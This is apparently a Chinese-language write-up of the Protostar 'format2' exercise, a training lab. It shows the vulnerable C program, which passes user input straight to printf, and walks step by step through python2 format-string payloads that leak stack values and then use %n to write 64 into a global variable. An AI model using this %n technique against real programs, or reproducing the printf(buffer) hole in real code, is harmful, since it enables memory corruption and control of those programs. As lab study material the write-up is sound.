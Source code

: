 ```
# Format Two

This level moves on from format1 and shows how specific values can be written in memory.

This level is at /opt/protostar/bin/format2
```
---
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin); //使用`fgets(buffer, sizeof(buffer), stdin)`从键盘或重定向的文件读取输入，最多读取512字节
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
---

**本题目相较于format1区别如下：**
```c
1. **输入方式不同**：本题通过 `stdin` 使用 `fgets` 读取输入（最大 512 字节），而前一题通过命令行参数 `argv[1]` 接收输入。
2. **成功条件更严格**：本题要求全局变量 `target` 必须被精确修改为 **64** 才算成功；而前一题只需将其修改为任意非零值即可。
```

---

**找到terget的地址： 0x080496e4**
```c
└─$ objdump -t format2|grep target
080496e4 g     O .bss   00000004              target
```

**尝试确定输入的字符串在栈中的位置**
```c
python2 -c "print 'AAAA' + '%08x.'*10 + '[%08x]'" | ./format2
```
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250915195855544.png)

**减少`%08x.`的数量：**
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250915200029758.png)

**将字符串替换为target的地址**
```c
python2 -c "print '\xe4\x96\x04\x08' + '%08x.'*3 + '[%08n]'" | ./format2
�00000200.f7f965c0.00000000.[]
target is 32 :(
```
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250915200524428.png)

**添加`%<num>c` 用于填充长度：**
```c
python2 -c "print '\xe4\x96\x04\x08' + '%60c' + '%4\$n'" | ./format2

# `%4$n` → 把“到目前为止输出的字符数”写入栈上第 4 个参数指向的地址
#- 第 1 个参数：格式化字符串本身
#- 第 2、3、4 个参数：栈上后续内容，第 4 个正好是我们放的地址（需要调试确认偏移，这里假设是 4）
```

![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250915200938613.png)
